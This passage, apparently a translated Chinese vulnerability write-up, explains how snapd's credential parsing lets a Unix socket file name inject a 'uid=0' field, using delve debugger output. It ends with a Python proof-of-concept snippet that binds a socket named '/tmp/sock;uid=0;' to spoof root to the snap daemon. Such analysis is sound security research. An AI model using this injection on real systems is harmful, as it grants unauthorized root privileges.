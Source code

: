 最后一个函数的功能是将字符串按`;`符号拆分，然后查找开头为`uid=`的信息。由于函数会遍历所有的拆分字段，因此后出现的`uid=`会覆盖先出现的值。

那么如果我们能通过某种方式将任意文本注入该函数中呢？

回到delve调试器，我们可以看一下`remoteAddr`字符串，检查一下`nc`连接中该字段包含哪些数据（`nc`正确实现了HTTP GET请求）：

请求操作：

```
$ nc -U /run/snapd.socket
GET / HTTP/1.1
Host: 127.0.0.1
```

调试输出：

```
github.com/snapcore/snapd/daemon.ucrednetGet()
...
=&gt;  41:        for _, token := range strings.Split(remoteAddr, ";") `{`
...
(dlv) print remoteAddr
"pid=5127;uid=1000;socket=/run/snapd.socket;@"
```

现在，我们并不使用包含`uid`及`pid`之类独立属性的一个对象，而是直接使用已拼接所有字段的一个字符串变量，这个字符串包含4个不同的元素。第二个元素`uid=1000`代表我们当前的控制权限。

如果该函数按照`;`来拆分这个字符串并迭代处理，那么有两部分数据（如果包含`uid=`字符串）可能会覆盖第一个`uid=`字段，但只有在我们能影响这些数据才可以实现该目标。

第一部分（`socket=/run/snapd.socket`）是用来监听socket的本地“网络地址”：服务定义的待绑定（bind）的文件路径。我们没有权限修改snapd，无法让其使用另一个socket名来运行，因此似乎我们不大可能修改该值。

但调试信息中字符串末尾的`@`符号是什么？该符号源自何处？我们可以从`remoteAddr`这个变量名中找到线索。在调试器中探索一番后，我们可以看到golang标准库（`net.go`）会返回本地网络地址**以及**远程地址，我们可以在调试会话中看到这些信息（`laddr`以及`raddr`）：

```
&gt; net.(*conn).LocalAddr() /usr/lib/go-1.10/src/net/net.go:210 (PC: 0x77f65f)
...
=&gt; 210:    func (c *conn) LocalAddr() Addr `{`
...
(dlv) print c.fd
...
    laddr: net.Addr(*net.UnixAddr) *`{`
        Name: "/run/snapd.socket",
        Net: "unix",`}`,
    raddr: net.Addr(*net.UnixAddr) *`{`Name: "@", Net: "unix"`}`,`}`
```

远程地址会被设置为神秘的`@`符号。进一步阅读`man unix`帮助信息后，我们了解到这与“抽象命名空间（abstract namespace）”有关，用来绑定独立于文件系统的socket。命名空间中的socket开头为`null-byte`（空字节）字符，该字符在终端中通常会显示为`@`。

我们可以创建绑定到我们可控文件名的socket，而不去依赖netcat所使用的抽象套接字命名空间。这样操作应该能影响我们想修改的字符串变量的部分数据，也就是前面显示的`raddr`变量。

通过一些简单的python代码，我们可以创建包含`;uid=0;`字符串的文件名，然后将socket绑定到该文件，最后利用该socket连接到snapd API。

漏洞利用POC代码片段如下：

```
## Setting a socket name with the payload included
sockfile = "/tmp/sock;uid=0;"

## Bind the socket
client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
client_sock.bind(sockfile)

## Connect to the snap daemon
client_sock.connect('/run/snapd.socket')
```
